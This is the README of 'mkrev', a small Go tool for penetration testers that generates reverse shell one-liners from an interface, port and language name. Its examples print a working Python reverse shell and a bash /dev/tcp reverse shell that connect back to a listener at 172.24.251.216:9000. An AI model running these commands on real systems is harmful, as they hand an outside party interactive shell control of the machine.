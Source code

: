 # Mkrev

A lazy tool to generate reverse shell, it's quicker than browsing a cheatsheet, less typing as well !

> You don't have to type the IP! All hail laziness!  

## Installation

```
$ git clone https://github.com/fahmifj/mkrev.git
$ cd mkrev
$ go build -o mkrev main.go
```
> You can make the binary name even shorter, like `rs`, `grs`  

For easy call, put the binary (mkrev) inside your `$HOME/bin` then append it to your $PATH variable.
```
$ export $PATH=$HOME/bin:$PATH`
```
## Usage and examples

Usage is simple where some languages (Shell options) use shorter names.

```
$ mkrev [interface] [port] [shell]
```

- **interface**, an interface name like eth0, enp0s3, tun0, etc. 
- **port**, the specified port to listen
- **shell**, the scripting languages/utility name to generate the reverse shell code

Shortened language names:  
- `py` for python
- `nc` for netcat
- `ps` for powershell
- `pl` for perl
- `rb` for ruby

Example usage

- Generate a python reverse shell  

	```
	$ mkrev eth0 9000 py
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.24.251.216",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
	```  

- Generate a bash reverse shell
	```
	$ mkrev eth0 9000 bash
    bash -c "bash -i >& /dev/tcp/172.24.251.216/9000 0>&1
	```
